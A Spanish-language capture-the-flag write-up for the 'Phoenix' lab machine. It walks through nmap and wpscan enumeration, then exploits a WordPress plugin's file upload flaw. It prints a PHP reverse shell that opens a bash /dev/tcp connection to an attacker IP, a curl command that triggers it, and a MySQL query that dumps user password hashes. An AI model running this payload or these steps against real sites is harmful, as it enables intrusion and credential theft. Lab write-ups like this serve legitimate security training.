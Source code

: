 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Phoenix            |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 40                 |
| IP                     | 10.10.11.149       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Phoenix/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.149
```

![nmap 1](/assets/images/Phoenix/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.149 -oG allPorts
```

![nmap 2](/assets/images/Phoenix/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80 10.10.11.149 -oN targeted
```

![nmap 3](/assets/images/Phoenix/nmap3.png)

Al acceder al website, nos dirige a un virtual host `phoenix.htb`, asiq ue lo agregaremos a nuestro /etc/hosts y ahora si podremos visualizar correctamente su contenido. 

```s
whatweb http://phoenix.htb
```

Estamos presentes ante una pagina con wordpress. 

![whatweb](/assets/images/Phoenix/whatweb.png)

Asi que lo siguiente fue usar wpscan para enumerar las vulnerabilidades o pluggins que se puedan explotar.
 
```s
#Para que nos enumere usuarios, pluggins vulnerables, y pase la certificacion ssl:
wpscan -v --disable-tls-checks --url https://phoenix.htb --force --enumerate u,vp
#Para que nos enumere pluggins:
wpscan -v --disable-tls-checks --url https://phoenix.htb --force --enumerate p
```
![wp-users](/assets/images/Phoenix/wp_users.png)

![wp-pluggins](/assets/images/Phoenix/wp_plugins.png)

Navegando e investigando sobre lo que contiene la pagina, no encontre nada, pero hay veces que el escaneo no enumera todos los pluggins de wordpress, como es el caso del **download-from-file**, busque exploits para este pluggin y encontre que es vulnerable a un unarbitraria carga de archivos. Asi que intentaremos hacer algo, un reverse shell con php y la llame pwn.phtml por que el <a href="https://www.exploit-db.com/exploits/50287">exploit </a> solo acepta php4 y phtml, pero le gusto mas esta extension, tambien fueron necesarias unas modificaciones que pongo despues.

```php
<?php system("bash -c 'bash -i  >& /dev/tcp/10.10.11.230/4444  0>&1'"); ?>
```

![modify 1](/assets/images/Phoenix/verify1.png)

![modify 2](/assets/images/Phoenix/verify2.png)

Ahora, para obtener la shell solo mandamos un:

```s
curl "https://phoenix.htb/wp-admin/reverse3.phtml" -k
```

![Shell uploaded](/assets/images/Phoenix/shell_uploaded.png)

![Reverse shell](/assets/images/Phoenix/reverse_access.png)

Ahora solo tendremos que entrar en MySQL para enumerar las contrasenas. Las contrasenas del servicio de MySQL estan en el archivo wp-config.php, que ahora ya tenemos acceso. Y para entrar, usamos el comando:

```sql
mysql -h localhost:/var/run/mysqld/mysqld.sock -u wordpress -p %#C++32%himself%FIRM%section%32++%3E
select user_login, user_pass from wp_users;
```

Verificacion de puerto:

nc 10.11.12.13 22 -zv